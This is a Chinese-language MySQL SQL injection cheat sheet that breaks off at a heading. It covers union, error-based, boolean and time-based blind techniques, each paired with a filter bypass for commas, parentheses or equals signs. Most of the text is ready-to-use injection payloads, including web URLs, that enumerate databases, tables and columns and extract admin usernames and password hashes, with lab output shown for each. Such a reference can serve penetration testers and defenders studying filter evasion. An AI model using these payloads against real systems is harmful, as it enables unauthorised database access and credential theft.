





# 一、union联合查询-join()绕过逗号（,）过滤

# 0x00 概要

在页面有显示位的情况下使用

# 0x01 记忆方式


```plain
mysql> select * from test where id=-1 union select * from (
    (select 1)A join 
    (select 2)B join 
    (select 3)C join 
    (select 4)D
);

+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 2    | 3    | 4       |
+------+------+------+---------+
1 row in set (0.00 sec)
```


# 0x02 测试表数据


```plain
# 测试表数据: test;

mysql> select * from test;
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 1    | 1    | 1       |
|    2 | 2    | 2    | 2       |
|    3 | 3    | 3    | 3       |
+------+------+------+---------+
3 rows in set (0.00 sec)
```


```plain
# 测试管理表: tdb_admin;

mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```


# 0x03 查看列数


web语句: http://www.test.com/sql.php?id=1 order by 4


数据库语句: select * from test where id = 1 order by 4;


```plain
# 列数正确时
mysql> select * from test where id = 1 order by 4;
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 1    | 1    | 1       |
+------+------+------+---------+
1 row in set (0.00 sec)
```


```plain
# 列数超出时
mysql> select * from test where id = 1 order by 5;
ERROR 1054 (42S22): Unknown column '5' in 'order clause'
```


test 表字段4个所以 order by 4 即可多了会报错,报错就把数量自己减少到不报错即可


# 0x04 显示列数


web语句: http://www.test.com/sql.php?id=-1 union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D)


数据库语句: select  *from test where id=-1 union select*  from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);


```plain
mysql> select * from test where id=-1 union select * from (
    (select 1)A join 
    (select 2)B join 
    (select 3)C join 
    (select 4)D
);
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 2    | 3    | 4       |
+------+------+------+---------+
1 row in set (0.00 sec)
```


注: 我的test表一共就四个字段,所以join 4次即可,实战中如果有5个字段,那就join 5次即可


# 0x05 读取数据库版本/当前连接用户/当前连接的数据库


web语句: http://www.test.com/sql.php?id=-1 union select * from ((select version())A join (select user())B join (select database())C join (select 4)D)


数据库语句: select  *from test where id=-1 union select*  from ((select version())A join (select user())B join (select database())C join (select 4)D);


```plain
mysql> select * from test where id=-1 union select * from (
    (select version())A join 
    (select user())B join 
    (select database())C join 
    (select 4)D
);
+--------+----------------+------+---------+
| id     | test           | map  | content |
+--------+----------------+------+---------+
| 5.5.53 | root@localhost | test | 4       |
+--------+----------------+------+---------+
1 row in set (0.00 sec)
```


# 0x06 爆库名


注意: LIMIT 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库


web语句: http://www.test.com/sql.php?id=-1 union select * from ((select schema_name from information_schema.schemata limit 1 offset 0)A join (select 2)B join (select 3)C join (select 4)D)


数据库语句: select  *from test where id=-1 union select*  from ((select schema_name from information_schema.schemata limit 1 offset 0)A join (select 2)B join (select 3)C join (select 4)D)


```plain
# 一库
mysql> select * from test where id=-1 union select * from (
    (select schema_name from information_schema.schemata limit 1 offset 0)A join 
    (select 2)B join 
    (select 3)C join (select 4)D
);

+--------------------+------+------+---------+
| id                 | test | map  | content |
+--------------------+------+------+---------+
| information_schema | 2    | 3    | 4       |
+--------------------+------+------+---------+
1 row in set (0.00 sec)
```


```plain
# 二库
mysql> select * from test where id=-1 union select * from (
    (select schema_name from information_schema.schemata limit 1 offset 1)A join 
    (select 2)B join 
    (select 3)C join (select 4)D
);

+-------+------+------+---------+
| id    | test | map  | content |
+-------+------+------+---------+
| 74cms | 2    | 3    | 4       |
+-------+------+------+---------+
1 row in set (0.00 sec)
```


# 0x07 爆表名


注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据


web语句: http://www.test.com/sql.php?id= -1 union select * from (

 (select table_name from information_schema.tables where table_schema=DATABASE() limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

);


数据库语句: select  *from test where id=-1 union select*  from (

 (select table_name from information_schema.tables where table_schema=DATABASE() limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

);


```plain
mysql> select * from test where id=-1 union select * from (
    (select table_name from information_schema.tables where table_schema=DATABASE() limit 1 offset 0)A join 
    (select 2)B join 
    (select 3)C join 
    (select 4)D
);
+-----------+------+------+---------+
| id        | test | map  | content |
+-----------+------+------+---------+
| tdb_admin | 2    | 3    | 4       |
+-----------+------+------+---------+
1 row in set (0.00 sec)
```


# 0x08 暴字段


table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名


offset 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

offset 0 = id

offset 1 = username

offset 2 = password


web语句: http://www.test.com/sql.php?id= -1 union select * from (

 (select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)


数据库语句: select  *from test where id=-1 union select*  from (

 (select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)


```plain
# 字段1
mysql> select * from test where id=-1 union select * from (
	(select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 0)A join 
	(select 2)B join 
	(select 3)C join 
	(select 4)D
);
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
| id   | 2    | 3    | 4       |
+------+------+------+---------+
1 row in set (0.00 sec)
```


```plain
# 字段2
mysql> select * from test where id=-1 union select * from (
	(select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 1)A join 
	(select 2)B join 
	(select 3)C join 
	(select 4)D
);
+----------+------+------+---------+
| id       | test | map  | content |
+----------+------+------+---------+
| username | 2    | 3    | 4       |
+----------+------+------+---------+
1 row in set (0.00 sec)
```


# 0x08 爆内容


注意: offset 0 表示要显示那一条数据

offset 0 表示第一条

offset 1 表示第二条


web语句: http://www.test.com/sql.php?id= -1 union select * from (

 (select (select username from test.tdb_admin limit 1 offset 0))A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)


数据库语句: select  *from test where id=-1 union select*  from (

 (select (select username from test.tdb_admin limit 1 offset 0))A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)


```plain
mysql> select * from test where id=-1 union select * from (
	(select (select username from test.tdb_admin limit 1 offset 0))A join 
	(select 2)B join 
	(select 3)C join 
	(select 4)D
)

+-------+------+------+---------+
| id    | test | map  | content |
+-------+------+------+---------+
| admin | 2    | 3    | 4       |
+-------+------+------+---------+
1 row in set (0.00 sec)
```

# 二、extractvalue与updatexml爆错注入突破长度限制的两种方法

# 0x00 概要


在使用 extractvalue或是updatexml报错注入 方法时可能会出现一种情况要获取的数据大于了 32 位导致显示不完整。


这里展示两种常用突破方法


# 0x01 substr函数


方法1-sql: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,substr(password,1,10),0x7e) FROM test.tdb_admin limit 0,1)))


方法1-sql讲解: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,substr(字段名称,开始读取的位置,指定显示的长度),0x7e) FROM 库名.表名 limit 0,1)))


```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,substr(password,1,10),0x7e) FROM test.tdb_admin limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~~7fef617146~'
```


# 0x02 SUBSTRING 函数+LENGTH 函数


用法:

substring(str, pos)，即: substring(被截取字符串， 从第几位开始截取)

substring(str, pos, length)

即: substring(被截取字符串，从第几位开始截取，截取长度)


使用这个函数的时候最好是搭配 length 函数一起使用,先获取数据长度，然后在通过偏移获取数据


```plain
# 测试表数据:
mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```


先获取某字段的数据长度: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,length(password),0x7e) FROM test.tdb_admin limit 0,1)))


```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,length(password),0x7e) FROM test.tdb_admin limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~~32~'
```


获取前30位的数据: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,1),0x7e) FROM test.tdb_admin limit 0,1)))


```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,1),0x7e) FROM test.tdb_admin limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~~7fef6171469e80d32c0559f88b3772'
```


select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,31),0x7e) FROM test.tdb_admin limit 0,1)))


sql讲解: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(字段名,要开始读取的位置),0x7e) FROM 库名.表名 limit 0,1)))


```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,31),0x7e) FROM test.tdb_admin limit 0,1)));

ERROR 1105 (HY000): XPATH syntax error: '~~45~'
```

# 三、case()绕过括号（）注入

# 0x00 概要


不允许 “括号” 出现时的注入方法


# 0x01 测试数据


```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```plain
mysql> select current_user;
+----------------+
| current_user   |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```plain
mysql> select * from tdb_goods where goods_id=1;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```


# 0x02 测试


- 注意:
- 如果使用了like又使用了延时会导致全表查询
- 例如:
- tdb_goods 表 数据为 23 条
- 延时 0.1S
- 0.1 * 23 = 2.3S 最后会延时2.3S 所以要尽量避免这样干


```plain
// 正确的情况
// 会返回原来的数据页面保持不变
mysql> select * from tdb_goods where goods_id=1-case when 1 like 1 then 0 else 2*1e308 end;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```


```plain
// 查询current_user数据正确的情况
// 会返回原来的数据页面保持不变，说明 current_user 第一位为 “r”
mysql> select * from tdb_goods where goods_id=1-case when current_user like 'r%' then 0 else 2*1e308 end;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```


```plain
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空
mysql> select * from tdb_goods where goods_id=1-case when 1 like 2 then 0 else 2*1e308 end;
ERROR 1690 - DOUBLE value is out of range in '(2 * 1e308)'
```

# 四、case()+sleep函数-绕过过滤逗号（，）绕过

# 0x00 记忆方式


and case when(substring(表达式 from 1 for 1)=判断条件) then sleep(5) else 0 end;


# 0x01 基本数据


```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)
```


# 0x02 获取数据长度


```plain
mysql> select length(user());
+----------------+
| length(user()) |
+----------------+
|             14 |
+----------------+
1 row in set (0.00 sec)
```


数据库语句: select * from tdb_goods where goods_id=1 and case when(length(user())=14) then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(length(user())=14) then sleep(5) else 0 end;
Empty set (5.00 sec)
```


# 0x03 读取数据库版本/当前连接用户/当前连接的数据库


注意: 读取不同的内容

例如:

select substring(user() from 1 for 1) = r

select substring(user() from 2 for 1) = o


数据库语句: select * from tdb_goods where goods_id=1 and case when(substring(user() from 1 for 1)='r') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring(user() from 1 for 1)='r') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


猜对时会延时5秒,一旦延时了5S就可以判断为猜对了


# 0x04 猜库名


注意: OFFSET 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库


```plain
// 演示数据
mysql> SELECT schema_name FROM information_schema.schemata LIMIT 0,1;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
+--------------------+
1 row in set (0.00 sec)
```


读取1库库名第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


读取1库库名第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 2 for 1)='n') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 2 for 1)='n') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


# 0x05 猜表名


注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据


注意: OFFSET 0 修改会显示其他表名

例如:

修改为0 就是出1表

修改为1 就是出2表


```plain
// 演示数据
mysql> SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1;
+------------+
| table_name |
+------------+
| tdb_admin  |
+------------+
1 row in set (0.00 sec)
```


数据库语句-读取当前库的第一张表名的第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables  where table_schema=database() LIMIT 1 OFFSET 0) from 1 for 1)='t') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 1 OFFSET 0) from 1 for 1)='t') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


数据库语句-读取当前库的第一张表名的第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables  where table_schema=database() LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


# 0x06 猜字段


table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名


OFFSET 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password


```plain
// 演示数据
mysql> SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1;
+-------------+
| column_name |
+-------------+
| id          |
+-------------+
1 row in set (0.00 sec)
```


猜test库 tdb_admin表的第一个字段名第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


猜test库 tdb_admin表的第一个字段名第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns  where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;

Empty set (5.00 sec)
```


# 0x07 猜内容


OFFSET 0 第几条数据 下标从0开始

from 1 第几个字


```plain
// 演示数据
mysql> SELECT * FROM test.tdb_admin LIMIT 1 OFFSET 0;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```


读取某库某表某字段第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT 字段名 FROM 库名.表名 LIMIT 1 OFFSET 0) from 1 for 1)='a') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT username FROM test.tdb_admin LIMIT 1 OFFSET 0) from 1 for 1)='a') then sleep(5) else 0 end;
Empty set (5.00 sec)
```


读取某库某表某字段第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT username FROM test.tdb_admin LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;


```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT username FROM test.tdb_admin LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;
Empty set (5.00 sec)
```

# 五、case()加like函数绕过等号（=）

# 0x00 概要


不允许 等于号( = ) 出现时的注入方法


# 0x01 测试数据


```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```plain
mysql> select * from tdb_goods where goods_id=1;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```


# 0x02 测试


- 注意:
- 如果使用了like又使用了延时会导致全表查询
- 例如:
- tdb_goods 表 数据为 23 条
- 延时 0.1S
- 0.1 * 23 = 2.3S 最后会延时2.3S 所以要尽量避免这样干


```html
// 正确的情况
// 会返回原来的数据页面保持不变
mysql> select * from tdb_goods where goods_id=1-(case when (select user()) like 'root%' then 1 else exp(~(1)) end);
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```


```html
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空
mysql> select * from tdb_goods where goods_id=1-(case when (select user()) like 'roota%' then 1 else exp(~(1)) end);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
```

# 六、字符串截取函数绕过逗号（,）

# 0x00 概要

不允许 逗号(,) 出现时的注入方法

- substring(str FROM pos)
- substr(str FROM pos)
- mid(str FROM pos)
- 从字符串str的起始位置pos 返回一个子串

# 0x01 解法

## 0x01.1 解法一


```plain
mysql> select  ascii(substring((select user()) from 1));
+------------------------------------------+
| ascii(substring((select user()) from 1)) |
+------------------------------------------+
|                                      114 |
+------------------------------------------+
1 row in set (0.00 sec)
```


```plain
mysql> select  ascii(substring((select user()) from 2));
+------------------------------------------+
| ascii(substring((select user()) from 2)) |
+------------------------------------------+
|                                      111 |
+------------------------------------------+
1 row in set (0.00 sec)
```

## 0x01.2 解法二

```plain
mysql> select  substring((select user()) from 1 for  1);
+------------------------------------------+
| substring((select user()) from 1 for  1) |
+------------------------------------------+
| r                                        |
+------------------------------------------+
1 row in set (0.00 sec)
```


```plain
mysql> select  substring((select user()) from 2 for  1);
+------------------------------------------+
| substring((select user()) from 2 for  1) |
+------------------------------------------+
| o                                        |
+------------------------------------------+
1 row in set (0.00 sec)
```


# 0x02 盲注实验

## 0x02.1 基础数据


```plain
// 当前用户
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```plain
// 测试数据
mysql> select * from test where id = 1;
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```

## 0x02.2 编码转换


```plain
// 第一个字符的ascii码
mysql> select ascii(mid(user() from 1));
+---------------------------+
| ascii(mid(user() from 1)) |
+---------------------------+
|                       114 |
+---------------------------+
1 row in set (0.00 sec)
// 十进制转码
mysql> select char(114);
+-----------+
| char(114) |
+-----------+
| r         |
+-----------+
1 row in set (0.00 sec)
```


```plain
// 十进制转码
mysql> select char(111);
+-----------+
| char(111) |
+-----------+
| o         |
+-----------+
1 row in set (0.00 sec)
```


## 0x02.3 解法一-布尔盲注查询数据库用户名

substring, substr, mid 这3个函数利用方式都是一样的，所以就只举例一个


```plain
// 正确的情况
mysql> SELECT * from test where id = 1 and (select ascii(mid(user() from 1))=114);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```


```plain
// 错误的情况
mysql> SELECT * from test where id = 1 and (select ascii(mid(user() from 1))=119);
Empty set (0.00 sec)
```


## 0x02.4 解法一-延时盲注查询数据库用户名

substring, substr, mid 这3个函数利用方式都是一样的，所以就只举例一个

```plain
// 正确的情况
mysql> SELECT * from test where id = 1 and case when(ascii(substring(user() from 1))=114) then sleep(5) else 0 end;
Empty set (5.00 sec)
```


```plain
// 错误的情况
mysql> SELECT * from test where id = 1 and case when(ascii(substring(user() from 1))=119) then sleep(5) else 0 end;
Empty set (0.00 sec)
```

## 0x02.5 解法二-延时盲注查询数据库用户名


substring, substr, mid 这3个函数利用方式都是一样的，所以就只举例一个


```plain
// 正确的情况
mysql> SELECT * from tdb_goods where goods_id = 1 and case when(substring(user() from 1 for 1)='r') then sleep(5) else 0 end;
Empty set (5.00 sec)
// 错误的情况
mysql> SELECT * from tdb_goods where goods_id = 1 and case when(substring(user() from 1 for 1)='x') then sleep(5) else 0 end;
Empty set (0.00 sec)
```

# 七、if判断条件

# 0x00 记忆方式

and if(substring(表达式,1,1)=判断条件 ,1=1,1=2);


正确时会和原来的数据一致,错误会不返回数据

# 0x01 基本数据


```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)

mysql> select * from test where id = 1;
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```

# 0x02 获取数据长度


```plain
mysql> select length(user());
+----------------+
| length(user()) |
+----------------+
|             14 |
+----------------+
1 row in set (0.00 sec)
```


数据库语句: select * from test where id = 1 and if(length(user())>=14,1=1,1=2);

# 0x03 读取数据库版本/当前连接用户/当前连接的数据库

读取不同的内容

例如:

substring(user(),1,1) = r

substring(user(),2,1) = o


读取 user() 第一个字符的内容-正确时的结果: select * from test where id = 1 and if(substring(user(),1,1)='r',1=1,1=2);


```plain
mysql> select * from test where id = 1 and if(substring(user(),1,1)='r',1=1,1=2);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```


读取 user() 第一个字符的内容-错误时的结果: select * from test where id = 1 and if(substring(user(),1,1)='s',1=1,1=2);


```plain
mysql> select * from test where id = 1 and if(substring(user(),1,1)='s',1=1,1=2);
Empty set (0.00 sec)
```

# 0x04 猜库名

